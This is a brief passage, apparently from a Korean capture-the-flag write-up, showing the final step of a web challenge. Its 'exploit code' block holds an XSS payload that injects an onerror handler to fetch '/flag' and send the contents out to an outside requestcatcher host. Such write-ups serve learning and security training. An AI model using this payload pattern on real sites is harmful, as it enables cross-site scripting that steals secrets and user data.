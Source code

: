 ### 3. /flag에서 얻은 값을 requestcatcher로 보냄

![스크린샷_2025-08-04_오전_12.45.41.png](./image/screenshot_2025-08-04_00.45.41.png)

### 익스플로잇 코드

```jsx
:https://hi.com/#" onerror="fetch('/flag').then(r=>r.text()).then(t=>location.href='///hihello.requestcatcher.com/test?'+t)":
```